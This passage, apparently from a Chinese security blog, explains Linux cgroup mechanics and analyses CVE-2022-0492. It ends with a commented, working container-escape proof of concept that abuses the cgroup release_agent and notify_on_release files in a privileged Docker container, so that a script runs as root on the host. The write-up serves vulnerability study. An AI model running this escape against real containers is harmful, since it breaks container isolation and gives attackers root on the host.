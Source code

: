 从这里开始的知识和漏洞相关性很大了。注意以下加粗字体，和漏洞利用的关系较大。在Linux中，
**用户若想操作cgroup需要使用mount命令挂载cgroup文件系统** ，命令格式为：mount -t cgroup -o <subsystem>
<name> <path>其中`<subsystem>`为cgroup子系统名称，`<name>`为挂载名称，`<path>`为挂载路径。  
若想 **将某个进程加入到某一个cgroup的子系统中**
进行相应的管理和限制，通常的方法是将此进程/进程组ID加入到此子系统挂载的虚拟文件系统下的`cgroup.procs`文件中，命令如下：

    
    
    echo <PID> > <cgroup-mount-path>/cgroup.procs

其中，`<PID>`为要加入cgroup子系统的进程/进程组ID， `<cgroup-mount-path>`为对应子系统的挂载目录。
**大多数Linux已经自动在系统启动时候将cgroup虚拟文件系统挂载到了**` /sys/fs/cgroup` **目录中**
，这个操作是由systemd[2]完成的。
**但是这个自动挂载目录的操作权限较高，用户也可以自行将cgroups虚拟文件系统挂载到用户权限可及的目录下。**
我们大致看下每个子系统包含的内容：![](https://gitee.com/fuli009/images/raw/master/public/20220320222758.png)2022-03-13-20-24-40.png捡几个重要的讲一下：

  *  tasks：加入到此cgroup子系统中的进程，以PID列表的形式存储

  *   **cgroup.procs：加入此cgroup中的进程/进程组列表**

  *   **notify_on_release：用于标记当此cgroup子系统的所有进程都退出后是否运行release_agent程序，0为默认不运行，1为运行，如果在当前子系统中新建了子系统，则默认继承这个配置**

  *  **release_agen** **t** （只存在顶层cgroup子系统中）：当上面的notify_on_release设置为1时，此cgroup子系统的所有进程都退出后 **以内核权限** 运行的程序

  
下面是我以特权容器配置(`docker run --privileged --name test-nginx-privileged -d
nginx`)启动的Nginx
Docker容器中的CPU子系统包含的内容和部分配置值：![](https://gitee.com/fuli009/images/raw/master/public/20220320222759.png)2022-03-13-21-39-22.png至此，我们对Linux
cgroup了解大概了，开始看漏洞。 **0x03 漏洞分析**
回到CVE-2022-0492这个漏洞，粗看国外Researcher写的漏洞分析除了照做能复现成功以外，会产生很多疑问，比如：如何想到的这么做？为什么这样算漏洞？为啥要新建Namespace，为啥要使用一次unshare？不使用会怎样？直到把文章中引用的另一篇文章：Understanding
Docker container escapes[3]阅读并理解后，才懂得是怎么回事儿。我按照时间线来重新分析下这个容器逃逸姿势如何变成漏洞的。 **>**
**>**

 **特权容器中的逃逸骚姿势（此时不是漏洞)**

2019年，Felix Wilhelm在Twitter上发了一个容器逃逸的骚姿势并且分享了一枚PoC：

> Quick and dirty way to get out of a privileged k8s pod or docker container
> by using cgroups release_agent feature.

我修改了一些不太好懂的命令，并且重新命名了，PoC整理如下：

  *   *   *   *   *   *   *   *   * 

    
    
    cgroup_dir=/sys/fs/cgroup/rdma  # 选择一个包含release_agent的cgroup子系统控制器，默认只有rdma合适，可以使用cgroup_dir=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`进行查找和定位mkdir -p $cgroup_dir/test_subsystem  # 在其中创建一个子系统test_subsystemecho 1 >$cgroup_dir/test_subsystem/notify_on_release  # 将test_subsystem子系统中的notify_on_release配置为1用来在全部进程都退出该cgroup子系统后触发内核调用release_agenthost_overlay2_fs_dir=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`  # 从/etc/mtab中提取upperdir,此路径指向宿主机的Overlay2fs文件系统的挂载点，容器内rootfs未提交的文件变动都会在此体现echo '#!/bin/sh' > /script  # 在容器根目录下创建script文件并写入执行脚本(Payload)echo "touch /hacked_by_tunan_use_cg_notify_on_release_and_privileged_containter" >> /script  # 在容器根目录下创建script文件并写入执行脚本(Payload)echo "$host_overlay2_fs_dir/script" > $cgroup_dir/release_agent  # 将host_overlay2_fs_dir与script目录拼接，目的是在notify_on_release运行时指向容器外的宿主机中的script文件chmod a+x /script  # 给script增加执行权限sh -c "echo \$\$ > $cgroup_dir/test_subsystem/cgroup.procs"  # 将一个执行即退出的进程ID写入到此cgroup子系统的cgroup.procs中去触发notify_on_release，在这里写入的是sh进程自己的PID
